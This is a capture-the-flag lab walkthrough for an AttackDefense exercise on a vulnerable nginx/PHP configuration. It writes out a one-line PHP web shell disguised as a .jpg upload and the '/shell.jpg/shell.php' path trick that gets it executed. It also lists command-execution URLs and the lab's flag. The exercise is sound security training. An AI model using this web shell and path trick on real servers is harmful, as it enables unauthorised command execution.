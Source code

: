 ﻿![](Aspose.Words.770197fe-5e7c-41c0-8ec7-5b368c99d6c3.001.png)

![](Aspose.Words.770197fe-5e7c-41c0-8ec7-5b368c99d6c3.002.png)
<table><tr><th colspan="1"><b>Name</b> </th><th colspan="1">Vulnerable Nginx II </th></tr>
<tr><td colspan="1" rowspan="2"><b>URL</b> </td><td colspan="1" valign="bottom"><https://www.attackdefense.com/challengedetails?cid=208>  </td></tr>
<tr><td colspan="1"></td></tr>
<tr><td colspan="1"><b>Type</b> </td><td colspan="1">Infrastructure Attacks : Nginx </td></tr>
</table>

**Important Note:** This document illustrates all the important steps required to complete this lab. This  is  by  no  means  a  comprehensive  step-by-step  solution for this exercise. This is only provided as a reference to various commands needed to complete this exercise and for your further research on this topic. Also, note that the IP addresses and domain names might be different in your lab.  

The web portal only allows the user to upload files with restricted extensions i.e. jpg, png etc. But a misconfiguration in PHP configuration file (php.ini) allows PHP code execution for uploaded files. 

**Objective:** Your objective is to upload a web shell, execute arbitrary commands on the server and retrieve the flag! 

**Solution:**  ![ref1]

**Step 1:** Inspect the web application. 

**URL:** http://rm6nrvpugyar08ip9hfzkrv0l.public1.attackdefenselabs.com/ 

![](Aspose.Words.770197fe-5e7c-41c0-8ec7-5b368c99d6c3.004.jpeg)

**Step 2:** Since only image extensions i.e jpg, png are allowed. Create a simple web shell and save it with “jpg” extension** 

Save the below given php script as shell.jpg 

<?php 

$output = shell\_exec($\_GET["cmd"]); echo "<pre>$output</pre>"; 

?> 

![](Aspose.Words.770197fe-5e7c-41c0-8ec7-5b368c99d6c3.005.png)

**Step 3:** Upload shell.jpg file to the web server. ![ref1]

Click on the browse button and upload the php script. 

**Step 4:** Click on the hyperlink generated after uploading the php script  ![](Aspose.Words.770197fe-5e7c-41c0-8ec7-5b368c99d6c3.006.jpeg)

![](Aspose.Words.770197fe-5e7c-41c0-8ec7-5b368c99d6c3.007.jpeg)

**URL:** http://rm6nrvpugyar08ip9hfzkrv0l.public1.attackdefenselabs.com/uploads/shell.jpg  ![ref1]

![](Aspose.Words.770197fe-5e7c-41c0-8ec7-5b368c99d6c3.008.png)

Since shell.jpg is not an image, the browser fails to render shell.jpg as an image. 

**Step 5:** To exploit the misconfiguration, append a filename ending with “.php” extension. By doing so, nginx will pass the shell.jpg file to the php handler and the php script will be executed. 

**URL:** http://rm6nrvpugyar08ip9hfzkrv0l.public1.attackdefenselabs.com/uploads/shell.jpg/shell.php 

![](Aspose.Words.770197fe-5e7c-41c0-8ec7-5b368c99d6c3.009.png)

No output is returned since the cmd parameter was not passed. **Step 6:** Execute system commands through “cmd” GET parameter. **Command:** whoami 

**URL:** http://rm6nrvpugyar08ip9hfzkrv0l.public1.attackdefenselabs.com/uploads/shell.jpg/shell.php?cm d=whoami **![ref1]**

![](Aspose.Words.770197fe-5e7c-41c0-8ec7-5b368c99d6c3.010.png)

**Step 7:** Enumerate files stored on the web server. **Command:** pwd 

**URL:** http://rm6nrvpugyar08ip9hfzkrv0l.public1.attackdefenselabs.com/uploads/shell.jpg/shell.php?cm d=pwd 

![](Aspose.Words.770197fe-5e7c-41c0-8ec7-5b368c99d6c3.011.png)

**Command:** ls -l /var/www/html/ 

**URL:** http://rm6nrvpugyar08ip9hfzkrv0l.public1.attackdefenselabs.com/uploads/shell.jpg/shell.php?cm d=ls%20-l%20/var/www/html 

![](Aspose.Words.770197fe-5e7c-41c0-8ec7-5b368c99d6c3.012.png)

The flag location is revealed. ![ref1]

**Step 8:** Retrieve the flag 

**Command:** cat /var/www/html/11fe3327841e0a7e-flag 

**URL:** http://rm6nrvpugyar08ip9hfzkrv0l.public1.attackdefenselabs.com/uploads/shell.jpg/shell.php?cm d=cat%20/var/www/html/11fe3327841e0a7e-flag 

![](Aspose.Words.770197fe-5e7c-41c0-8ec7-5b368c99d6c3.013.png)

**Flag:** a70b6683dcc71cc32102ed404ad5fbf3 **References:**  

1. Nginx (<https://www.nginx.com/>)  ![ref1]
1. Setting up PHP-FastCGI and nginx? Don’t trust the tutorials: check your configuration! ([https://nealpoole.com/blog/2011/04/setting-up-php-fastcgi-and-nginx-dont-trust-the-tutor ials-check-your-configuration/](https://nealpoole.com/blog/2011/04/setting-up-php-fastcgi-and-nginx-dont-trust-the-tutorials-check-your-configuration/))  

[ref1]: Aspose.Words.770197fe-5e7c-41c0-8ec7-5b368c99d6c3.003.png
